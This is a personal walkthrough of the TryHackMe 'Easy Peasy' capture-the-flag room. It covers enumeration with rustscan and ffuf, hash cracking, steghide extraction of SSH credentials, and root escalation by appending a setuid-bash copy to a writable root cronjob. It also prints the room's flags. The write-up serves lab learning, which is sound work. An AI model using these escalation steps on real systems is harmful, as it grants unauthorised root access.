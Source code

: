 # Easy Peasy (THM)

- https://tryhackme.com/room/easypeasyctf
- March 7, 2023
- easy
- not easy

---

- Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.
- it is not an easy room for me
- useful links
  - https://md5hashing.net/hash
  - https://gchq.github.io/CyberChef/

## Enumeration

### Nmap

- Only one port open with default scan

1. 80/http - nginx 1.16.1
   - default page for nginx

- rustscan with all ports

```
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack
6498/tcp  open  unknown syn-ack
65524/tcp open  unknown syn-ack
```

2. 6498/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3. 65524/http - Apache httpd 2.4.43 ((Ubuntu))
   - Apache default page

### HTTP

- directory brute forcing at port 80 with ffuf

```
hidden
index.html
robots.txt
```

- brute force into hidden -> `whatever`

![](images/2023-03-07-14-10-46.png)

- `ZmxhZ3tmMXJzN19mbDRnfQ==` -> base64 encrypt -> `flag{f1rs7_fl4g}`

- directory brute forcing at port 65524 with ffuf

```
index.html
robots.txt
```

- robots.txt

![](images/2023-03-07-13-52-11.png)

- try to brute force directory using User-Agent value, but not success
- crack this value `a18672860d0510e5ab6699730763b250`
- try to crack with john or hashcat, but not success
- use this website - https://md5hashing.net/hash
- the algorithm is md5, can check with hash identifier
- it will give the second flag

![](images/2023-03-07-13-55-05.png)

- at http://$IP:65524/

![](images/2023-03-07-14-37-10.png)

- using cypher chef try all possible algorithm and found base62 decode, the secret directory
- at the secret directory, get another hash

![](images/2023-03-07-14-42-30.png)

- don't know the hash, in hint, it gives GOST,
  save it into crackme2 file

```sh
$ john --wordlist=easypeasy.txt --format=gost crackme2
# found correct word
```

- what is this word for?
- it is not flag to submit.
- nothing do to here now
- let's download the png file `binarycodepixabay.jpg`
- something may hidden in that picture

```sh
$ steghide extract -sf binarycodepixabay.jpg
Enter passphrase:
# enter above crack word as passphrase
wrote extracted data to "secrettext.txt".
```

- in secrettext.txt

```
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001

```

- it may be username and password for ssh
- password is easy to convert from binary to ascii

## User Access

- enter ssh with credentials for boring user
- remember to specify port (-p)
- no sudo access
- suid bits -> not interesting
- cronjob

```sh
boring@kral4-PC:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

```sh
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh
#!/bin/bash
# i will run as root
```

```sh
-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh
```

- has read write access to boring
- it will run by root once per minute and add to create suid bit for bash

## Root Access

```sh
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh
#!/bin/bash
# i will run as root
cp /bin/bash /tmp/bash;
chmod +s /tmp/bash;
```

- wait for run by root
- then

```sh
boring@kral4-PC:/var/www$ /tmp/bash -p
bash-4.4# whoami
root
bash-4.4# cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
bash-4.4# cat /home/boring/user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}

```

- for user flag, it is said to be rotated, try rot13, 47, etc

---
